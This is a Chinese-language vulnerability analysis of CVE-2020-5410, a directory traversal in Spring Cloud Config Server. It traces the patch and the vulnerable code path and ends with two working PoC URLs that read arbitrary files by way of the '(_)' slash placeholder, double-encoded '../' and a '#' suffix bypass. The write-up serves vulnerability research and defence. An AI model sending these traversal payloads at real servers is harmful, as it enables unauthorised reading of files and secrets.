 （CVE-2020-5410）Spring Cloud Config 目录穿越漏洞
=================================================

一、漏洞简介
------------

Spring Cloud
Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本以及较旧的不受支持的版本允许应用程序通过spring-cloud-config-server模块提供任意配置文件。恶意用户或攻击者可以使用特制URL发送请求，这可能导致目录遍历攻击。

二、漏洞影响
------------

Spring Cloud Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本

三、复现过程
------------

### 漏洞分析

这次补丁主要是两个部分,第一个部分是将对路径的检测方法单独的封装了出来,封装到了PathUtils类中,并且做了部分的修改,其中最主要的是检测了`#`,至于是为什么,后面来说。![1.png](./resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId25.png)

第二部分,也就是漏洞的触发入口，在environment/EnvironmentController.java中,增加了对name、label字段的检测![2.png](./resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId26.png)通过补丁我们可以大概知道漏洞应该是出在EnvironmentController,但是具体怎么触发并不知道,所以我们需要跟一遍正常逻辑看一下处理流程。既然是目录穿越漏洞,我们先通过环境变量设置本地读取

    profiles:
        active: native
      cloud:
        config:
          server:
            native:
              search-locations:
                - file:/test/config-repo-master

然后使用正确的请求来动态跟踪调用堆栈`http://www.0-sec.org:8889/111/222/333`,将断点打在入口处,然后往下跟![3.png](./resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId27.png)

在跟到`environment/NativeEnvironmentRepository.java`的时候发现参数进行了拼接,![4.png](./resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId28.png)重新跟进getArgs看一下

    private String[] getArgs(String application, String profile, String label) {
            List<String> list = new ArrayList<String>();
            String config = application;
            if (!config.startsWith("application")) {
                config = "application," + config;
            }
            list.add("--spring.config.name=" + config);
            list.add("--spring.cloud.bootstrap.enabled=false");
            list.add("--encrypt.failOnError=" + this.failOnError);
            list.add("--spring.config.location=" + StringUtils.arrayToCommaDelimitedString(
                    getLocations(application, profile, label).getLocations()));
            return list.toArray(new String[0]);
        }

主要在getLocations中对路径进行了下拼接,声称了一个将env中的uri拼接了label,生成新的location,那么这个点就是我们目录穿越的关键,继续往下跟,在`environment/NativeEnvironmentRepository.java`中会将args传入spring
boot的`ConfigurableApplicationContext context = builder.run(args)`,后面会使用loader.load函数加载资源,在加载资源的时候会遍历locations拼接name来获取资源,首先来判断是否存在文件,如果文件存在,则去使用url.openConnection来获取资源,通过分析我们知道label和name是我们可控的传入,

    url = env-uri+label+name+extension

因为是借助的url.openConnection,结合补丁增加了`#`限制,我们可以清楚的知道通过在name中以`#`结尾,使extension成为锚点,也就绕过了后缀的限制。在构造poc之前其实还有一个问题，就是这里我们知道一开始是没有对路径进行检测的,那么我们是否可以直接使用`../../`来穿越呢?答案是否,因为如果我们想要传入后端处理,必须二次url编码,但是二次编码后,首先经过的是判断文件是否存在,如果存在才调用url.openConnection来处理,经过一次解码后,显然该路径文件是不存在的。

![5.png](./resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId29.png)

这里就有了跟CVE-2020-5405一样的操作,将`(_)`替换成了`/`,处理方法在

    public static String normalize(String s) {
            if (s != null && s.contains(SLASH_PLACEHOLDER)) {
                // "(_)" is uncommon in a git repo name, but "/" cannot be matched
                // by Spring MVC
                return s.replace(SLASH_PLACEHOLDER, "/");
            }
            return s;
        }

### poc

    http://www.0-sec.org:8889/flag.txt%23/222/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29tmp%28_%29

![6.png](./resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId31.png)

构造完这个poc会想到,既然是label+name来拼接的,我们是否可以不用管label,目录穿越的方法在name处构造呢?答案是可以的,poc如下

    http://www.0-sec.org:8889/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%252Fflag.txt%23/222/11

![7.png](./resource/(CVE-2020-5410)SpringCloudConfig目录穿越漏洞/media/rId32.png)
